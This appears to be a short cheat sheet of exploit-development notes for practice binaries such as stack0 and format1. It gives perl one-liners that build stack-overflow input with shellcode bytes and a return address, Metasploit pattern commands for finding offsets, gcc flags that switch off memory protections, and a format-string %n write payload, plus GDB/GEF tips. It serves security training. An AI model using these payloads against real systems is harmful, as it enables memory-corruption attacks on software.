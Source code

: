 -   Using PERL for argument.
    ---------------------------------------------------------------------------------------------------------------------------
`perl -e 'print  "\x31\xc0\x50\x68\" . "A"x76 . "\x28\xf4\xff\xbf" '`
`perl -e 'print  "A"x100 '`
- inside gdb
`# run $(perl -e 'print "A"x100')`
 
-   Patterns for rewrite 
    ---------------------------------------------------------------------------------------------------------------------------
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 63413563` 


-   Compile in Kali with no protection
    ---------------------------------------------------------------------------------------------------------------------------
gcc stack0.c -o stack0 -fno-stack-protector -z execstack -no-pie -m32 -ggdb


-   HEX file representation
    ---------------------------------------------------------------------------------------------------------------------------
xxd pattern
00000000: 4161 3041 6131 4161 3241 6133 4161 3441  Aa0Aa1Aa2Aa3Aa4A
00000010: 6135 4161 3641 6137 4161 3841 6139 4162  a5Aa6Aa7Aa8Aa9Ab

-   Strings search
    ---------------------------------------------------------------------------------------------------------------------------
strings filename
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2A


-   Format string example
    ---------------------------------------------------------------------------------------------------------------------------
run $(perl -e 'print "\xcc\xcc\xcc". "\x38\x96\x04\x08" . "%x"x165 . "%n"')
 - \x38\x96\x04\x08 address of parameter to change
 - %n should be padded exactly to location of string "\x38\x96\x04\x08" in the stack
 
First find the writable parameter with %x - in our case %6$x:
perl -e 'print  "AAAABBBB"."\x24\x97\x04\x08"."\x26\x97\x04\x08"."%6\$33956x" ."%6\$n"."%7\$33616x" ."%7\$n" ' > exploit

To make:  0x8049724:	0x080484b8
1) we write 84b8 at 0x8049724
2) we write 010804 at 0x8049726 ( + something to 84b8)
  
-   File info
    ---------------------------------------------------------------------------------------------------------------------------
show  dynamic lynced libraries#     ldd format1
show  calls #                       strace ./format1


-   GEF
    ---------------------------------------------------------------------------------------------------------------------------
- to divide output into 2 windows
run gef in tmux session#    tmux new-session -s shared
run gef #                   gdb -q ./binnary
crutch to make it work#     gef config gef.debug 1


	
